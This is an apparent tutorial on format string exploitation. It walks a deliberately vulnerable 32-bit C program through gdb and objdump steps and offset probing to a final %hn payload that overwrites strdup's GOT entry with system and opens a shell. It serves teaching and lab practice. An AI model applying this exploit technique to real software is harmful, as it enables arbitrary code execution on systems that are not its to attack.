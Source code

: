 ### Overview
This code demonstrates format string exploits. These vulnerabilities occur when a function that takes string 
formats as inputs like `printf()` is exposed to user input. Mentally, I think of this as the C equivalent of 
SQL injection.  

This guide is based off of [this website](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) More in depth explanation is provided there

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three address off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: 
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  


### Process
Using this information we are going to try to open a system shell by exploiting this code:
```
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```

To do this we must:
- Find the memory address for `strdup()`
- Find the memory address for `system` (The shell)
- Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

#### Find the memory address for `strdup()`
- Compile the program `gcc test.c -m32`
- view the compiled object `objdump -d a.out`
- You should see in the output a section with `<strdup@plt>` with a jmp command. the memory address to the right is the memory address of this function.
- Write this down. On my computer it is  `0x804a010`

#### Find the memory address for `system`
- We must first disable libc randomization so that `system` is always at a deterministic location in memory.
- Run the command `ulimit -s unlimited` to disable libc randomization
- We can find the location using the debugging tool gdb. Below is the sample terminal output from doing so:
```
gdb -q a.out
Reading symbols from /home/osboxes/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048450
(gdb) r
Starting program: /home/osboxes/a.out 

Breakpoint 1, 0x08048450 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555d1e70 <system>
```
We now know that the location of system is `0x555d1e70`. This means we need to write `0x555d1e70` to `0x804a010` which is the location of `strdup` in the Global Offset Table

#### Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three addresses off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following:
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  

If we succeed in overwriting `strdup` with `system` our program will call system with `argv[1]` so the string that we pass into printf must also be a valid system arguement. Our payload will begin with `sh#` so that everything after it will be commented out and we will open a shell process.  

Using the format of our payload string as `<address><address+2>%<number1>x%<offset>$hn%<number2>x%<offset+1>$hn` We can write the value of number1 to address and the value of number2 to address+2. The goal of the offset value is to determine what position in the stack the arguements number1 and number2 are located at. This takes adventage of the `x$` formatter which will select the xth arguement to `printf`. 

##### Finding offset value
The offset values are very sensitive to the lenght of the string changing so we will use a string that is the same length as the final string we wish to use. `"$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"` sending this string into our program this will display `sh;#AAAABBBB<garbage>arg17<garbage>arg18`. We need to change 17 and 18 until the values `0x41414141` and `0x42424242` are displayed. This will mean that we know what argument the 5th through 8th byte and 9th through 12th byte of the string are, and can select them to be written to in the future.  

On my machine the proper offsets are 99 and 100.

##### Final Command
Running the command  `//env -i ./a.out "$(python -c 'import sys;sys.stdout.write("sh;#\x10\xa0\x04\x08\x12\xa0\x04\x08%07780x%99$hn%14061x%100$hn")')"` will successfully open up a new shell from this process. 

